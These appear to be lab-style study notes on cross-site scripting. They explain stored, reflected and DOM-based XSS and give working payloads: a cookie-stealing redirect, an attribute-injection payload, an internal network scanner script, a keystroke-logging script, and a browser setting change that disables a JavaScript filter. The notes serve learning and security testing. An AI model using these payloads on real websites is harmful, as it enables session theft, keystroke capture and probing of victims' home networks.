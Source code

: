 # XSS (Cross-Site Scripting)

## Stored XSS

A website allows user input that is not sanitised.

<figure><img src="../.gitbook/assets/image (1) (3).png" alt=""><figcaption><p>An example Stored XSS</p></figcaption></figure>

`<script>alert(1)</script>`

`<script>document.querySelector('#thm-title').textContent = 'Hey'</script>`

`<script>document.location='/log/'+document.cookie</script>`

## Reflected XSS

The malicious payload is part of the victims request to the website.

The website includes this payload in response back to the user.

An attacker needs to trick a victim into clicking a URL to execute their malicious payload.

<figure><img src="../.gitbook/assets/image (1) (4).png" alt=""><figcaption><p>An example Reflected XSS</p></figcaption></figure>

Some browsers have in-built XSS protection.

In FireFox complete the following steps:

In URL bar: about:config

Search: browser.urlbar.filter.javascript

Change the boolean value from True to False

## DOM-Based XSS

DOM stands for **D**ocument **O**bject **M**odel and is a programming interface for HTML and XML documents.&#x20;

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>DOM</p></figcaption></figure>

With **reflective** xss, an attackers payload will be injected directly on the website and will not matter when other Javascript on the site gets loaded.

```html
<html>
    You searched for <em><script>...</script></em>
</html>
```

With **DOM-Based** xss, an attackers payload will only be executed when the vulnerable Javascript code is either loaded or interacted with. It goes through a Javascript function like so:

```javascript
var keyword = document.querySelector('#search')
keyword.innerHTML = <script>...</script>
```

Example: Upload picture:

<figure><img src="../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>



`test" onmouseover="alert(document.cookie)"`



<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## IP & Port Scanner

For example, a website could try to find if your router has a web interface at 192.168.0.1 by:

`<img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">`

The following script will scan an internal network in the range 192.168.0.0 to 192.168.0.255

```javascript
<script>
    for (let i = 0; i < 256; i++) { // This is looping from 0 to 255
        let ip = '192.168.0.' + i // Creates variable for forming IP
        // Creating an image element, if the resource can load, it logs to the /logs page.
        let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
        document.body.innerHTML += code // This is adding the image element to the webpage
    }
</script> 
```

## Key Logger

<pre class="language-javascript"><code class="lang-javascript">&#x3C;script type="text/javascript">
    let l = ""; // Variable to store key-strokes in
    document.onkeypress = function (e) { // Event to listen for key presses
<strong>        l += e.key; // If user types, log it to the l variable
</strong>        console.log(l); // update this line to post to your own server
    }
&#x3C;/script> 
</code></pre>

